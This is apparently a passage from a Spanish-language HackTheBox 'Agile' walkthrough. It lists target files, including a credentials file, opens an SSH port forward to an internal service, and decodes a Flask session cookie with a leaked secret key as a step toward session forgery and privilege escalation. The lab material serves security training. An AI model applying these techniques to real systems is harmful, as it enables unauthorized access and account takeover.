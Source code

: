 ![](/Agile/Pasted_image_20230306160615.png)

Archivos interesantes

~~~bash
/var/www/html/index.nginx-debian.html                                                                                                                                                 
/app/app-testing/__pycache__/wsgi-dev.cpython-310.pyc
/app/app-testing/tests/functional/creds.txt
/app/app-testing/tests/functional/__pycache__/test_site_interactively.cpython-310-pytest-7.2.0.pyc
/app/app-testing/tests/functional/test_site_interactively.py
/app/app-testing/requirements.txt
/app/app-testing/.pytest_cache/.gitignore
/app/app-testing/.pytest_cache/CACHEDIR.TAG
/app/app-testing/.pytest_cache/v/cache/stepwise
/app/app-testing/.pytest_cache/v/cache/nodeids
/app/app-testing/.pytest_cache/v/cache/lastfailed
/app/app-testing/.pytest_cache/README.md
/app/app-testing/superpass/views/__pycache__/home_views.cpython-310.pyc
/app/app-testing/superpass/views/__pycache__/account_views.cpython-310.pyc
/app/app-testing/superpass/views/__pycache__/vault_views.cpython-310.pyc
/app/app-testing/superpass/views/vault_views.py
/app/app-testing/superpass/views/home_views.py
/app/app-testing/superpass/views/account_views.py
/app/app-testing/superpass/__pycache__/app.cpython-310.pyc
/app/app-testing/superpass/__pycache__/__init__.cpython-310.pyc
~~~

## Privilege Escalation a Edwards

Intentamos acceder al servicio en el puerto 5555, es la misma aplicación pero corriendo como testing y localmente en el sistema Agile

~~~bash
ssh -L 8080:localhost:5555 corum@10.10.11.203
~~~

Nos registramos con un usuario e intentamos acceder a los recursos del sistema, pero no podemos.

Tomamos nuestra cookie y vemos que el id asignado es el 2

~~~bash
flask-unsign --secret MNOHFl8C4WLc3DQTToeeg8ZT7WpADVhqHHXJ50bPZY6ybYKEr76jNvDfsWD --decode --cookie .eJzdkEuKwzAQRK8iem0G_WypfYrZDyF0t1qxwUkGy1mF3H005BZZFUXVg6KecK4btUUbzD9PMEcXuGprdFEY4HtTamq2-8WsN3PcDYn00BzL2sxv73zB6TV8OHca-km7tgXmY39od2uBGWohVOUg_4yrJUqxit4RyySaslrCgjVb69FLsM5LFnaxUmYq6JE1jNHjhGlErgm1YsLIYeRErogLk-TkvDIWh8EJ5ynXalO0Ghltn39-NN3fazy8_gAATZH3.ZAn1Rg.T8uAe8cVXAmBs1AoJY-LcqIjJHc
~~~

~~~json
{'_flashes': [('message', 'Please log in to access this page.'), ('message', 'Please log in to access this page.'), ('message', 'Please log in to access this page.'), ('message', 'Please log in to access this page.'), ('message', 'Please log in to access this page.')], '_fresh': True, '_id': 'fda9eeb3cacce1fd4cd0e921abc6ce78e0a9d9f800292c3012c8cb14fa8bad929be3542969759bf79ef9794b35b7a1dc136c8712eb9d1931cb868ff0740e4b90', '_user_id': '2'}
~~~
